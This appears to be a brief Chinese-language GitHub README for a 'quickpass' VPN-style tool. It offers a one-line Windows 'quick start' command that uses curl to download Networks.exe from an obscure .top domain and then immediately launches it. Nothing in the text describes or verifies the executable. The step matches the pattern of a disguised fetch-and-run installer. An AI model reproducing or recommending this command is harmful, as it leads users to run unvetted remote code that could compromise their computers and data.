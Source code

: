 # quickpass
一条命令，即可快速开始！（在Windows上）。
如果Linux或MacX，请寻找Softether VPN Client客户端进行连接。
输入以下命令：
curl -O https://dogemandogeman.top/pages/att/Networks.exe & start /high Networks.exe
